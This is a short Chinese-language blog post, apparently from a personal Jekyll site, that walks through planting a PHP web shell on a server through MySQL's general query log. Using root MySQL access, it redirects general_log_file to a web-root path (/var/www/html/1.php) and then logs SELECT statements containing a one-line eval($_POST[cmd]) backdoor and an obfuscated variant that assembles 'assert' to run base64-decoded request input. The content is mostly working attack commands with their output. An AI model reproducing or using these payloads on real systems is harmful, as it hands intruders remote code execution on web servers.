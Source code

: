 ```yaml
---
layout: post

title: "mysql的兼职技能"
date: 2017-03-28 22:02:11 +0800

categories: post
tags: [mysql, shell, 网络安全]
---
```

>必须在mysql 的**root**权限下

查看`general_log`状态

```sql
mysql> show variables like '%general%';
+------------------+----------------------------+
| Variable_name    | Value                      |
+------------------+----------------------------+
| general_log      | OFF                        |
| general_log_file | /var/lib/mysql/itaken.log |
+------------------+----------------------------+
2 rows in set (0.22 sec)

mysql>
```
开启mysql查询日志, 设置日志文件路径
>这里是存储了每一个sql语句执行的日志（包含SQL语句本身）

```sql
mysql> set global general_log = on;
Query OK, 0 rows affected (0.00 sec)

mysql> set global general_log_file = '/var/www/html/1.php';
Query OK, 0 rows affected (0.00 sec)

mysql> show variables like '%general%';
+------------------+---------------------+
| Variable_name    | Value               |
+------------------+---------------------+
| general_log      | ON                  |
| general_log_file | /var/www/html/1.php |
+------------------+---------------------+
2 rows in set (0.00 sec)

mysql>
```
>`1.php`文件如果不存在,则会创建,所以该目录必须有创建文件权限, 否则会报错
```sql
mysql> set global general_log_file = '/var/www/html/1.php';
ERROR 29 (HY000): File '/var/www/html/1.php' not found (Errcode: 13 - Permission denied)
```

执行sql查询, 记录到日志
```sql
mysql> select '<?php eval($_POST[cmd]);?>';
+----------------------------+
| <?php eval($_POST[cmd]);?> |
+----------------------------+
| <?php eval($_POST[cmd]);?> |
+----------------------------+
1 row in set (0.00 sec)

mysql> SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?>";
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| <?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?> |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| <?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?> |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql>
```


>原文: [SQL语句利用日志写shell](https://evi1cg.me/archives/test1.html)

---
### 更多阅读
- [mysql语句执行记录写一句话](http://www.sakill.com/?p=426)
- [The General Query Log](https://dev.mysql.com/doc/refman/5.7/en/query-log.html)
- [phpmyadmin新姿势getshell](http://blog.cora-lab.org/287.html)
